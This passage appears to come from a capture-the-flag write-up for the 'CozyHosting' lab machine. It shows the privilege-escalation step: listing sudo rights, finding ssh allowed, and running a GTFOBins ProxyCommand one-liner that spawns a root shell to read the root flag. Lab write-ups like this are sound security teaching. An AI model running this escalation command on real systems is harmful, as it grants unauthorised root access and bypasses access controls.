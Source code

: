 <br />

Enumerating **sudo privileges** we find out that we can run `ssh` with `sudo`:

```bash
sudo -l
```

![](/assets/CozyHosting/25.png)
<br />
<br />
<br />

A quick glimpse at **GTFOBins** and we are in:

![](/assets/CozyHosting/26.png)
<br />
<br />
<br />

```bash
sudo ssh -o ProxyCommand=';bash 0<&2 1>&2' x
```

![](/assets/CozyHosting/27.png)
<br />
<br />
<br />

We only have to grab the **root flag**:

<br />

![](/assets/CozyHosting/28.png)
<br />
<br />
<br />
